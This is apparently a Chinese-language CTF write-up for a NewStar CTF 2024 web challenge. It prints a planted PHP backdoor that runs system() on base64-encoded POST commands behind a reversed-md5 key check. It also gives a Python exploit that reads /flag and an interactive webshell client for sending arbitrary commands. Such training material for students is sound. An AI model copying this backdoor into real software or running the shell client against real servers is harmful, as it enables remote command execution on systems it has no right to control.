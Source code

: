 ```yaml
---
title: WriteUp
titleTemplate: ':title - NewStar CTF 2024'
---
```


# 智械危机

index.php的基本提示：

```php
echo "<b>ROBOTS</b> is protecting this website!<br>";
echo "But it is not smart enough...<br>";
echo "It may leak some information to you, future hackers!";
```

明显的提示：查看robots.txt，得到了路由/backd0or.php

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}
function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个对新生来说略绕的PHP代码阅读，也对编写脚本、使用webshell的能力进行初步的考察。  
cmd参数是**base64编码后**的system命令。  
key的验证逻辑：将**cmd参数值**字符串翻转后，计算md5哈希，并与base64解码后的key进行比较。  
因此我们将这个过程反过来，就可以得到解题exp：

```python
import requests
import base64
import hashlib
print("[+] Exploit for newstar_zhixieweiji")
url = "http://yourtarget.com/backd0or.php"
cmd = "cat /flag"
cmd_encoded = base64.b64encode(cmd.encode()).decode()
cmd_reversed = cmd_encoded[::-1]
hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
payload = {
    'cmd': cmd_encoded,
    'key': encoded_key
}
response = requests.post(url, data=payload)
print(f"[+] Flag: {response.text}")
```

exp使用了requests 库负责请求后门 shell，也可以用任何一款能够发出 POST 请求的工具完成这一操作，如hackbar，burp等。  
请各位新生**打好编程基础，不要浮躁**，部分新生私聊的问题我完全无法理解。这题的代码逻辑哪怕只懂一点英语也该看懂了，变量名称我都没做混淆。GPT可能会胡编，但是完全可以给你提取出足够的关键词用于搜索。  
这题的出法**不鼓励**手搓！！！先编码再逆序，执行一个指令都费劲，flag位置没赌对就得再搓一遍。只要脚本写好，这题完全可以得到一个简洁的交互式shell：

![这里理应是配图](/assets/images/wp/2024/week1/web/zhixieweiji_1.png)

附代码：

```python
import requests
import base64
import hashlib
print("[+] Shell for newstar_zhixieweiji")
url = input("[+] Enter the target URL: ")
def execute_command(cmd):
    cmd_encoded = base64.b64encode(cmd.encode()).decode()
    cmd_reversed = cmd_encoded[::-1]
    hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
    encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
    payload = {'cmd': cmd_encoded,'key': encoded_key}
    response = requests.post(url, data=payload)
    return response.text[:-1]
hostname = execute_command("hostname")
username = execute_command("whoami")
while True:
    directory = execute_command("pwd")
    command = input(f"{username}@{hostname}:{directory}$ ")
    output = execute_command(command)
    print(output)
```
